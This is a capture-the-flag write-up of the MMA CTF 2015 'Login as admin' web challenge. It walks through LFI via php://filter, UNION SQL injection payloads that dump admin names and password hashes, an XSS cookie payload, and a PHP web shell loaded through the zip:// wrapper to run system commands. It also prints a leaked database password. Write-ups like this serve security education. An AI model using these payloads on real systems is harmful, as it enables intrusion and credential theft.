 
## MMA 1st CTF 2015 - Login as admin (Web 30)
##### 05/09 - 07/09/2015 (48hr)
___
### Description: 

http://magiagents.chal.mmactf.link/
___
### Solution

We start by looking at the urls:
```
  http://magiagents.chal.mmactf.link/?page=home
  http://magiagents.chal.mmactf.link/?page=news
```
Probably an LFI. Let's try:
```
  http://magiagents.chal.mmactf.link/?page=settings
```

Page returns the settings page which is available after login. NULL byte is not allowed, here
but LFI is possible as we shouldn't have seen settings page. Let's try php wrappers:
```
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=home
```
Bingo! A base64 string is returned with the page:
```
PGRpdiBjbGFzcz0icGFnZS1oZWFkZXIiPjxoMT5Ib21lPC9oMT48L2Rpdj4KCjxpbWcgc3JjPSJtYWdpLmpwZyI+Cgo8P3
BocAppZiAoaXNzZXQoJF9TRVNTSU9OWyJhZG1pbiJdKSAmJiAkX1NFU1NJT05bImFkbWluIl0pIHsKICAgIGVjaG8gZmls
ZV9nZXRfY29udGVudHMoIi4uL2ZsYWciKTsKfQo=
```
We decode it and we get the page source:
```html
  <div class="page-header"><h1>Home</h1></div>

  <img src="magi.jpg">

  <?php
  if (isset($_SESSION["admin"]) && $_SESSION["admin"]) {
      echo file_get_contents("../flag");
  }
```
We can do the same for the rest files (the code for each file is in separete file):
```
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=settings
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=news
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=index
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=login
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=db
```
Now we have all the source. Is it an SQLi? We can't do sqli in signup as it has a strong filter,
but we can do it on signin:
```php
    $user = $_POST['user'];
    $password = $_POST["password"];    
    $db = connect_db();

    $results = $db->query("SELECT * FROM users WHERE (name = '$user' AND not banned)");
```

NOTE: if we open db.php we'll see this line: 
      mysqli_connect('localhost', 'magiagents', '6fc1401279387c561b891c2672b1b418', 'magiagents');
      However  mysql server is not accessible from outside (obviously!).

Let's start our SQLi. First we register a user fooo2:fooo2. Then we login as:
```
http://magiagents.chal.mmactf.link/login.php
  user=' or name='fooo2
  &password=fooo2
  &signin=
```
And we logged in as fooo2. Let's see how many columns exist in users table:
```
  user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63
                              UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
The above query returns a blank page (as we cause an internal MySQL error), but this query:
```
  user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63,0x64 
                              UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```

Can login as fooo2. Nice! We know that there are 4 columns. We can identify columns names just
by looking source code: name, hashed_password, avator, banned.

Let's see what's going on the admins table. We assume that there are <=4 columns there.
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1)
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
This query gives an error, but this query:
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```
Doesn't. Thus there's a single column in admins table. Let's make a guess for the name:
```
  user=fooo2' AND not banned) UNION ALL SELECT (SELECT name FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
  &password=fooo2
```

As long as we don't get a blank page back, the only column in admins table is called name.

Then we try to login as admin:admin
```
  user=') UNION ALL SELECT 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997',0x63,0x64 
          UNION ALL (SELECT * FROM users WHERE name='
  &password=admin
```
We're logged in as admin but we can't get the flag:
```php
        $results = $db->query("SELECT * FROM admins");
        
        while ($row = $results->fetchArray()) {
            if ($row["name"] === $user) {
                $_SESSION["admin"] = true;
                break;
            }
        }
```

The reason is that $user will contain the whole SQLi string and not the username "admin".
However the above example returns an image with filename "c" (0x63). Now we have a path
to extract data from the DB. By replacing the 0x63 in the previous query with a SELECT
statement we get some useful data:
```
(SELECT group_concat(name) FROM admins)   ---> admin, asdf, m
(SELECT group_concat(name,hashed_password) FROM users WHERE name='admin' OR name='asdf' OR name='m')
--->  ffffffffffffffffffffffffffffffffffffffff, 
      5feba136aea0208ee7f522eb2de1b315eb828512,
      6b0d31c0d563223024da45691584643ac78c96e8
```
We can dump all usernames and hashes but this is not the point. From these hashes we can crack
only the last one which is 'm'. Then we login as m:m and we get the flag: 
**  MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd} **

___
I surprised from having a so simple username/password, and I contact the authors. They told me
that some else inserted that value, so this wasn't the correct way to solve it. Then I went back
and I was trying to solve it with the correct way. I looked for an injection in UPDATE, in order
to insert or change a row in admins table. This however wasn't possible as we have to craft an
injection statement that will be valid both in SELECT and in UPDATE. THe problem was the different
syntax and the extra "(" appeared in SELECT. We need a different way.

An XSS is possible but useless:
```
  user=' or /*<script>alert('xss:' + document.cookie)</script>*/ name='fooo2
  &password=fooo2
```

There's one thing that we miss all this time. The image upload. If we could upload a php file
then we could solve the challenge. The image checks are weak, so we can upload a php file. 
However this file won't have the .php extension. Let's go back to our LFI and see if we 
can do something else. From all the available wrappers, zlib is the most interesting.
zlib wrapper allow us to uncompress and execute a php file. This means that file doesn't
have to have the php extension. As zlib is for php 4 only, we'll use zip.

So, we login as fooo2:fooo2 and we upload a zip file, containing a foo.php file:
```
  <?php echo 'EXEC CODE</br>'; system( $_GET['cmd']) ?>
```
Then we upload the zip file which is stored at: avators/fooo22d555a4891d6ebc52e722f991855b25356b68333
zip wrapper usage is (http://php.net/manual/en/wrappers.compression.php): 
  zip://archive.zip#dir/file.txt

So we go back to our LFI and we try to access our file:
```
  http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=ls
```
Note that the file name is foo and not foo.php because index.php appends the .php extension:
```php
  <?php
    include("$page.php");
  ?>
```
We do an ls and we can access directory files:
  avators css db.php fonts home.php index.php js login.php logout.php magi.jpg news.php settings.php

Finally we get tha flag:
  http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=cat ../flag

**MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd}**
___